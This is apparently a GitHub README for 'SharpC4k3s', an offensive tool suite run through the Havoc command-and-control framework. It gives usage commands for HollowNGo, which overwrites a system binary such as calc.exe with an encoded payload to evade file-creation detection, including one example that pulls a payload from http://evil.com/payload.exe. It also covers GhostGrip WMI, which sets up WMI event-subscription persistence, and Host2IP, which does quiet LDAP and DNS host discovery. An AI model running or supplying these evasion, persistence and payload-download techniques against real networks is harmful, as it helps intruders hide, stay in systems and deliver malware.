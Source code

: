 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/b825632945a7a26b496f8f9cf7cad4e87674cef8/examples/SHARP.png">
</div>
<div align="center">
	Welcome to SharpC4k3s
</div>
<br>

## Tool Suite
- **HollowNGo**
- **GhostGrip WMI**
- **Host2IP**

## HollowNGO
HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

#### Create compressed encoded binary data (This is expected to run on your dev box not the target)
**Usage:** HollowNGo.exe -encode <source.exe> -output <output.txt>
- **Example:** HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

#### Via data output from -encode option
**Usage:** HollowNGo.exe -source <base64_content> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

#### Via remote hosted file
**Usage:** UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/c674b6dd870ddc8f4c7601b8d9e18f0feec36381/examples/HollowNGo.png">
</div>
<div align="center">
	HollowNGo Havoc example
</div>
<br>

## GhostGrip WMI
GhostGrip WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

**Usage:** GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/77242f2d974647427e6df74a15df5de9512e4070/examples/GhostGrip_WMI.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

## Host2IP
Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

**Usage:** Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
- **Example:** dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
- **Example:** dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/64cd688e35ab726ded7a11669a85463f3dfbd857/examples/Host2IP.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>
